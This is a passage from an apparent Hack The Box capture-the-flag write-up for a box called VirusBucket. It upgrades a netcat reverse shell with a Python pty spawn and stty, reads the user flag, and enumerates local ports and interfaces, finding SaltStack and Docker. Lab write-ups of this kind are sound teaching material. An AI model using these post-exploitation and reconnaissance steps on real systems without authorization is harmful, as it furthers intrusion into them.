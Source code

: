 
I’ll use `python -c 'import pty;pty.spawn("bash")'` then Ctrl-z, `stty raw
-echo; fg`, `reset` to get a better shell, and then grab `user.txt`:

    
    
    tomcat@VirusBucket:~$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    tomcat@VirusBucket:~$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    root@kali$ stty raw -echo; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@VirusBucket:~$ 
    tomcat@VirusBucket:~$ cat user.txt
    1f07a492************************
    

## Shell as root in container

### Enumeration

Looking around the box, the home directory was basically empty. The box also
limited the process list to processes that were being run by the current user,
so there wasn’t much there. What got me going in the right direction was
looking at the `netstat`:

    
    
    tomcat@VirusBucket:~$ netstat -tnl 
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 127.0.0.1:35217         0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
    tcp6       0      0 :::22                   :::*                    LISTEN     
    tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN     
    tcp6       0      0 :::8080                 :::*                    LISTEN
    

There were several ports listening on localhost only. Ports 4505 and 4506 are
associated with [SaltStack](https://www.saltstack.com/), an infrastructure
automation platform.

I also noted that this box has multiple interfaces, including a `docker0`,
which in HTB indicates containers:

    
    
    tomcat@VirusBucket:~$ ifconfig                     
    br-e9220f64857c: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
            inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
            ether 02:42:cb:c9:0f:ce  txqueuelen 0  (Ethernet) 
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    